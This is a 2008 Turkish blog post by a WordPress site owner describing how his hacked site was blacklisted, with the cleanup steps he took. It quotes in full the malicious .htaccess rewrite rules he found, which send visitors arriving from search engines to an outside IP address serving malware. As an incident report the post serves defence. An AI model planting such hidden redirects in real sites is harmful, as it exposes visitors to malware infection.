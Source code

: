 Title: Hacklendik
Date: 2008-11-18 22:15
Category: Haberler
Tags: apache, ftp, google, hack, htaccess, malware, WordPress

Bu gün siteme girmeye çalışan Firefox ve Google üzerinden girmeye
çalışanların karşılaştığı bir sorun sitem zararlı içerik olduğu için
engellenmiş. Aslında tüm arama sitelerinden gelen yönlendirmeler de aynı
sorun varmış. En sonunda anladım. Uzun aramalar sonunda
[http://wordpress.org/support/topic/217700][] Bu linkdeki bilgiler
doğrultusunda htcaacces içine girilen yönlendirme kodu nedeni ile
yaşamışım bu sorunları. Ayrıca yazılarımın için yerleştirilmiş bir
iframe reklam linkeleri de var tabi. Yukarıdaki linkdeki işlemleri tek
tek yaptım - htaccess dosyasını sildim. - ftp şifremi değiştirdim -
hostingh firmamdan sitemin bulnduğu klasörü bir virüs, malware
taramasından geçirmelerini istedim. Sorunun ana nedeni htaccess
dosyasında ki kodlar olarak görünüyor. Başta uzunca bir boşluktan sonra
aşağıdaki kod yazıyordu. RewriteEngine On RewriteCond %{HTTP_REFERER}
.*google.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*aol.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*msn.*$ [NC,OR] RewriteCond
%{HTTP_REFERER} .*altavista.*$ [NC,OR] RewriteCond %{HTTP_REFERER}
.*ask.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*yahoo.*$ [NC]
RewriteRule .* http://89.28.13.202/in.html?s=ix [R,L] Bu arada cute
ftp'de htaccess görüntülemeyide öğrendik.
[http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html][]
Muhtemelen sorun haftasonu benim kalıcı bağlantılarım gittinde oldu ve
ben bunu anlamadım. Asıl sorunun ise sitemi yahoo.com'da aradığımda
karşılaştım, linke tıkladığımda bilgisayarıma zararlı yazılım eklemeye
çalıştı. Zaten yukarıdaki kodda da bu açıkça görülüyor, siteme direk
girişlerde değilde arama sonuçlarından gelince yüklenmeye çalışıyor. Ama
hesap edemedikleri şey google'un bunu görüp sitemi kapatması. Google'un
ve Firefox'un sitemi engellemeleri daha bitmedi. Google Web Yöneticis
aracındaki incelemeye alın işaret kutunu işaretledim ve
StopBadware.org'daki formuda doldurdum. Neyse hayırlısı bakalım. Bu
durumu gören ve beni uyaran tüm arkadaşlara teşekkürler. Umarım bu tip
sorunlarla bi daha karşılaşmayız.

### Ek olarak

Ayrıca http://www.fatihhayrioglu.com/?ref=siteAdi gibi linkler var.
Bunlarıda robots.txt User-agent: * Disallow: /*ref=* Disallow:
/*?ref= kodlarını ekleyerek düzelttim. İşin ilginci bu linkleri
google'un arama aracı nasıl buluyor.

</p>

  [http://wordpress.org/support/topic/217700]: http://wordpress.org/support/topic/217700
  [http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html]: http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html
